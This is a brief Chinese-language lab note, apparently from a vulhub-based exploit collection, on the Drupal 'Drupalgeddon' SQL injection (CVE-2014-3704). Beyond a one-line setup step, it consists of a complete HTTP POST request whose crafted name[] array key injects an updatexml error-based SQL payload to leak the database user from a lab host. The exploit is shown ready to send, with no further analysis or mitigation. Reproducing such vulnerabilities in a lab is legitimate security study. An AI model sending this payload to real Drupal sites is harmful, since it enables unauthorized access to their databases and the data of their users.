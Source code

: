 # Drupal漏洞

## Drupal < 7.32 “Drupalgeddon” SQL注入漏洞（CVE-2014-3704）

1. 环境搭建使用vulhub
2. 发送如下数据包即可在返回值中取得数据

```txt
POST /?q=node&destination=node HTTP/1.1
Host: 192.168.3.148:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 122

pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a

```
